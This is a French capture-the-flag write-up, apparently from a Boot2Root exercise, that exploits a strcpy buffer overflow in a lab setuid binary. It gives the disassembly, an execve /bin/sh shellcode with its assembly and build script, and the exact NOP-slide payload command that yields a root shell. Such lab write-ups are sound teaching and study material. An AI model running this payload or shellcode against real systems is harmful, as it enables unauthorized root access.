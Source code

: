 # Buffer Overflow Nopslide exploit

A partir de **zaz**, on reprend le binaire **exploit_me** que l'on avait exploiter dans le [writeup1](https://github.com/ChokMania/Boot2Root/blob/master/writeup1.md) :

```
gdb -q ./exploit_me
(gdb)> disas main
Dump of assembler code for function main:
   0x080483f4 <+0>:	push   %ebp
   0x080483f5 <+1>:	mov    %esp,%ebp
   0x080483f7 <+3>:	and    $0xfffffff0,%esp
   0x080483fa <+6>:	sub    $0x90,%esp
   0x08048400 <+12>:	cmpl   $0x1,0x8(%ebp)
   0x08048404 <+16>:	jg     0x804840d <main+25>
   0x08048406 <+18>:	mov    $0x1,%eax
   0x0804840b <+23>:	jmp    0x8048436 <main+66>
   0x0804840d <+25>:	mov    0xc(%ebp),%eax
   0x08048410 <+28>:	add    $0x4,%eax
   0x08048413 <+31>:	mov    (%eax),%eax
   0x08048415 <+33>:	mov    %eax,0x4(%esp)
   0x08048419 <+37>:	lea    0x10(%esp),%eax
   0x0804841d <+41>:	mov    %eax,(%esp)
   0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
   0x08048425 <+49>:	lea    0x10(%esp),%eax
   0x08048429 <+53>:	mov    %eax,(%esp)
   0x0804842c <+56>:	call   0x8048310 <puts@plt>
   0x08048431 <+61>:	mov    $0x0,%eax
   0x08048436 <+66>:	leave
   0x08048437 <+67>:	ret
End of assembler dump.
```
<pre><code>0x08048400 <+12>:	cmpl   $0x1,0x8(%ebp)</code></pre>
>Le compare nous indique que le programme attend 1 seul argument.
```
0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
```
> **strcpy** copie et stocke notre premier argument dans la stack sans vérifier si la taille de l'argument correspond à celle du buffer de destination.

La fonction est donc exploitable par <code>buffer_overflow</code> pour corrompre les valeurs sauvegardées de **%ebp** et **%eip**.

On va effectuer une **nopslide attack**, qui consiste a placer un **SHELLCODE**, executant un **"shell"** ou une autre fonction, au milieu d'une **slide de nop** (**"\x90"**).
> L'instruction **nop** n'a comme seul but de passer a l'instruction suivante.

On connait l'adresse du buffer qui est :

<code>0xbffff640</code>

On connait l'**offset**, auquel on ecrase **%eip**, qui est de 140 et possede une taille de 4.

On utilse le **SHELLCODE** 23 bytes, génerer de la maniere suivante :

### <span>script.sh</span>
```bash
#!/bin/sh
nasm -f elf binsh.s
objdump -d binsh.o
echo ''
objdump -d binsh.o | cut -d '	' -f2 | tr '\n' ' ' | sed $'s/^.*_main>:/shellcode::::::\\\n/' | tr -s ' ' | sed 's/ /\\x/g' | sed 's/......$//'
echo '\n'
LENGTH=`objdump -d binsh.o | tail -1 | cut -f1 | sed 's/.$//' | sed 's/ *//'`
LENGTHDEC=$(echo "obase=10; ibase=16; $LENGTH" | bc)
printf "lenght = 0x%d // %d \n" $LENGTH $LENGTHDEC
rm binsh.o
```
### <span>binsh.s</span>

```as
section .text
global _main

_main:
xor eax, eax	; eax = 0
push eax		; push null termination
push 0x68732f2f	; hs//
push 0x6e69622f	; nib/
mov ebx, esp	; path
mov ecx, eax	; argv
mov edx, eax	; env
mov al, 0xb		; sysall code for execve
int 0x80
nop
```

<pre><code>> sh script.sh

binsh.o:     file format elf32-i386


Disassembly of section .text:

00000000 <_main>:
   0:   31 c0                   xor    %eax,%eax
   2:   50                      push   %eax
   3:   68 2f 2f 73 68          push   $0x68732f2f
   8:   68 2f 62 69 6e          push   $0x6e69622f
   d:   89 e3                   mov    %esp,%ebx
   f:   89 c1                   mov    %eax,%ecx
  11:   89 c2                   mov    %eax,%edx
  13:   b0 0b                   mov    $0xb,%al
  15:   cd 80                   int    $0x80
  17:   90                      nop

shellcode:
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80

lenght = 0x17 // 23
</code></pre>

On prepare un **PAYLOAD** de 144 charactères, composé de la maniere suivante :
<pre><code>NOPSLIDE * 60 + SHELLCODE + NOPSLIDE * 57 + Address dans la 1ère NOPSLIDE/code></code></pre>

<pre><code>./exploit_me `python -c "print '\x90'*60 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80' + '\x90'*57 + '\x50\xf6\xff\xbf'"`</code></pre>

Nous obtenons un terminal avec les droits **root** :
```
> id
uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
```